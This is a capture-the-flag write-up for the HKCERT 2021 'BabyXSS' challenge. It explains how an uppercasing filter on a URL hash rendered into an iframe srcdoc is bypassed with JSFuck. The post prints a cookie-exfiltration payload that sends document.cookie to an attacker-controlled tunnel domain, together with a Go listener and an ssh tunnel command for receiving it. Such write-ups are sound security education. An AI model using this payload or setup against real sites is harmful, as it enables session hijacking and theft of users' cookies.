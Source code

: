 ```yaml
---
title: "HKCERT CTF 2021: 純孩兒 BabyXSS"
description: ""
date: 2021-11-16T02:00:32+08:00
math: false
draft: false
tags: ["ctf", "hkcert21", "web", "xss"]
---
```


> **This post is part of the [HKCERT 2021 CTF series](/tags/hkcert21).**

---

|     Name     | 純孩兒 (BabyXSS)                 |
| :----------: | -------------------------------- |
|     Tags     | web                              |
|    Points    | 100                              |
|  Difficulty  | ★☆☆☆☆                            |
|    Solves    | 37 (total of all four divisions) |
| Release Date | 2021-11-13 02:00:00              |

> Have you tried the infant XSS challenge in the training platform? If you did, then you can try out this BABY XSS CHALLENGE...
>
> http://babyxss-m7neh9.hkcert21.pwnable.hk
>
> XSS Bot: http://xssbot-cxild5.hkcert21.pwnable.hk

---

## Step 1: Obtaining

Check the source code of the page by prepending `view-source:` to the URL, i.e., `view-source:http://babyxss-m7neh9.hkcert21.pwnable.hk/`.

```html
<HTML>
<HEAD>
	<TITLE>BABY XSS</TITLE>
</HEAD>
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
<H1>BABY XSS</H1>
<TEXTAREA ID="INPUT" ONCHANGE="WINDOW[LOCATION][HASH]=WINDOW[ENCODEURI](INPUT[VALUE])" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<IFRAME ID="OUTPUT" STYLE="WIDTH:400;HEIGHT:300"></IFRAME>
<SCRIPT>
	TOUPPERCASE = "\164\157\125\160\160\145\162\103\141\163\145";
	SUBSTR = "\163\165\142\163\164\162";
	ENCODEURI = "\145\156\143\157\144\145\125\122\111";
	DECODEURI = "\144\145\143\157\144\145\125\122\111";
	VALUE = "\166\141\154\165\145";
	SRCDOC = "\163\162\143\144\157\143";
	CONTENTWINDOW = "\143\157\156\164\145\156\164\127\151\156\144\157\167";
	PARENT = "\160\141\162\145\156\164";
	LOCATION = "\154\157\143\141\164\151\157\156";
	HASH = "\150\141\163\150";
	WINDOW = OUTPUT[CONTENTWINDOW][PARENT];

	CONVERT = () => {
		INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
		OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
	}
</SCRIPT>
</BODY>
</HTML>
```

We can see that this whole piece of code is uppercased. Also, the strings in the code inside the `script` tag is not readable, maybe because it's obfuscated?

So we input this whole piece of JavaScript code into https://deobfuscate.io. This is what we get.

{{< highlight javascript "linenostart=10" >}}
TOUPPERCASE = "toUpperCase";
SUBSTR = "substr";
ENCODEURI = "encodeURI";
DECODEURI = "decodeURI";
VALUE = "value";
SRCDOC = "srcdoc";
CONTENTWINDOW = "contentWindow";
PARENT = "parent";
LOCATION = "location";
HASH = "hash";
WINDOW = OUTPUT[CONTENTWINDOW][PARENT];
CONVERT = () => {
  INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
  OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
};
{{< / highlight >}}

## Step 2: Analysing

Now that the code is made readable, we can clean up the code and figure out the flow of how this page works.

1. In **Line 7**, we can see that whenever the content in the text area is changed, a URL-encoded form of the content inside is appended to the current URL after a `#` (the hash part of the URL).
{{< highlight html "linenostart=7" >}}
<TEXTAREA ID="INPUT" ONCHANGE="window.location.hash=window.encodeURI(INPUT.value)" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<!-- the cleaned code above is equivalent to the original -->
{{< / highlight >}}
2. In **Line 5**, we can see that whenever the page is loaded or the hash part in the current URL is changed, the `CONVERT` function is called.
{{< highlight html "linenostart=5" >}}
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
{{< / highlight >}}
3. The `CONVERT` function is essentially replacing the content in the text area with the URL-decoded form of the hash part of the current URL, and also setting the `srcdoc` attribute of the output iframe to the uppercased form of the content in the text area.
{{< highlight javascript "linenostart=21" >}}
CONVERT = () => {
  document.getElementById("INPUT").value = window.decodeURI(window.location.hash.substr(1)); // substr(1) removes the '#' prefix
  document.getElementById("OUTPUT").srcdoc = INPUT.value.toUpperCase();
}; // the above code is cleaned and is equivalent to the original
{{< / highlight >}}

## Step 3: XSS Attack Procedure

{{< figure src="1.png" width=600 >}}

Since the hash part of the current URL updates correspondingly to the current content in the input text area, it acts like a "state-saving-and-restoring" function. This means when we type some input in the text area, the hash part of the current URL is updated as it saves our input. If we pass the URL to the victim, the content in the input text area is restored from the hash part of the URL once the page is loaded.

In order to achieve XSS, we need to figure out some way to execute JavaScript in victim's browser as we can then get access to sensitive information (e.g., cookies) stored in his browser. To do that, we can make use of the iframe `srcdoc` mechanism as this attribute allows us to inject source document including JavaScript code into the iframe document. If we use JavaScript code as the input, when the victim loaded the page given a URL, the input content is restored and the JavaScript code will be executed in victim's browser.

Note that HTML tags are **case-insensitive**, whereas JavaScript variables are **case-sensitive**. This is rather important in this challenge because although there is no escaping or encoding used, the input content is uppercased (in Line 9) before being inserted into the `srcdoc` attribute of the output iframe.

This means that if we directly inject something like `<script>alert(1)</script>` into the output iframe as the code will become `<SCRIPT>ALERT(1)</SCRIPT>`, it won't be triggered due to `Uncaught ReferenceError: ALERT is not defined`.

So we need to come up with a way to bypass the uppercase transformation so that the code can still be executed even after being uppercased. A simple Google search with "*javascript uppercase xss*" returns a *StackExchange* question as the first result: [How can I execute a XSS when a web application transforms a data from lowercase to uppercase?](https://security.stackexchange.com/questions/117798/how-can-i-execute-a-xss-when-a-web-application-transforms-a-data-from-lowercase)

It turns out that we can use *JSFuck* to transform plain JavaScript code into its equivalent in the form of `[]()!+` characters. This effectively bypasses the uppercase transformation while still can execute the code that does the same thing.

## Step 4: Exploit

Now in order for us to get the cookie stored in the victim's browser, we can use `document.cookie`. We also need to make a way for us to receive this cookie. We can expose a simple LAN web server to the Internet and make a request to the server with `document.cookie` as part of the request.

This is the simple web server I used.

```go
// file: server.go
package main

import (
	"fmt"
	"net/http"
)

func root(w http.ResponseWriter, req *http.Request) {
	fmt.Println(req.URL.String())  // log the request URL
	fmt.Fprintf(w, "hello\n")
}

func main() {
	http.HandleFunc("/", root)
	http.ListenAndServe(":1313", nil) // localhost on port 1313
}
```

Run it with `go run server.go`, then expose it to the Internet using a free tunnelling service: http://localhost.run by running `ssh -R 80:localhost:1313 nokey@localhost.run`. Now we get a temporary hosted web server that can be accessed by the victim as well.

In order for the victim's browser to send its cookie to my server, our XSS payload can tell it to navigate to the URL of our server with the cookie as part of the URL query so that my server logs this URL that contains the cookie.

The following is the XSS payload I used. The URL domain is the one provided by the tunnelling service.

```javascript
location.href="https://7795a3052e14c9.lhr.domains/?"+document.cookie
```

Then we will need to *JSFuck* the XSS payload, wraps it with the `script` tag, and type it into the input text area. Now you see the URL has changed, copy the URL and send it to the XSS Bot. Hooray! Now the flag shows up in the stdout of our server! `hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}`

```
$ go run server.go
/?
/?flag=hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}
```
